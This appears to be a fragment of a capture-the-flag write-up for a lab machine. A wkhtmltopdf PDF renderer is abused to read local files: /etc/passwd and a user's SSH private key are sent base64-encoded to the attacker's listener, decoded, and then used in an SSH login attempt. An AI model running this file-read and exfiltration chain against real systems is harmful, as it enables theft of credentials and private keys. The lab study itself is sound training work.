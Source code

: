 ```
[CONTINUE]

GET /?data=cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYml... HTTP/1.1
Origin: file://
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/534.34 (KHTML, like Gecko) wkhtmltopdf Safari/534.34
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip
Accept-Language: en,*
Host: 192.168.247.128:1337
```

```
┌──(nabla㉿kali)-[~]
└─$ echo -n 'cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYml...' | base64 -d

[SNIP]

root:x:0:0:root:/root:/bin/bash
marty.mcfly:x:1000:1000::/home/marty.mcfly:/bin/bash
emmett.brown:x:1001:1001::/home/emmett.brown:/bin/bash
```

```javascript
fileRequest.open("GET", "file:///home/marty.mcfly/.ssh/id_rsa", true);
```

```
┌──(nabla㉿kali)-[~]
└─$ echo -n 'LS0tLS1CRUdJTiBPUEVOU1NIIFBSSVZBVEUgS0VZLS0tLS0KYjNCbGJuTnphQzFyWlhrdGRqRUFBQUFBQ21GbGN6STFOaTFqZEhJQUFBQUdZbU55ZVhCMEFBQUFHQUFBQUJDanZiKzdENwpzYXcvS1dJK3hVREc4b0FBQUFFQUFBQUFFQUFBR1hBQUFBQjNOemFDMXljMkVBQUFBREFRQUJBQUFCZ1FEUjBwd1VNLzNJCm5MZ1c...' | base64 -d > id_rsa
```

```
┌──(nabla㉿kali)-[~]
└─$ chmod 600 ./id_rsa 

┌──(nabla㉿kali)-[~]
└─$ ssh 'marty.mcfly'@'future.nyx' -i ./id_rsa

Enter passphrase for key './id_rsa': 
❌
```
